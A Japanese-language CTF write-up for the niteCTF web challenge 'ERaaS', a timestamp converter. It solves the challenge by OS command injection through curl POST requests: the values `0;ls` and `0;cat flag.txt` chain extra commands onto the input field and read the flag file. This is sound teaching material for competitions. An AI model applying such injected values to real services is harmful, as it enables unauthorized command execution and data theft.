 # ERaaS:web:50pts
Emergency response? Afraid not.  
[http://eraas.web.nitectf.live/](http://eraas.web.nitectf.live/)  

# Solution
URLが渡されるのでアクセスすると、UNIX時間を変換するサイトのようだ。  
![site.png](site/site.png)  
OSコマンドをバックで実行していると予想し、`0;ls`を渡す。  
```bash
$ curl -X POST http://eraas.web.nitectf.live/ --data "user_input=0%3Bls"
~~~
        <code> Thu Jan  1 00:00:00 UTC 1970
__pycache__
flag.txt
main.py
report.py
requirements.txt
run.sh
templates </code>
~~~
```
コマンドが実行され、ファイル一覧が表示された。  
```bash
$ curl -X POST http://eraas.web.nitectf.live/ --data "user_input=0%3Bcat+flag.txt"
~~~
        <code> Thu Jan  1 00:00:00 UTC 1970
nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d} </code>
~~~
```
ファイルを読み取ると、flagが得られた。  

## nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}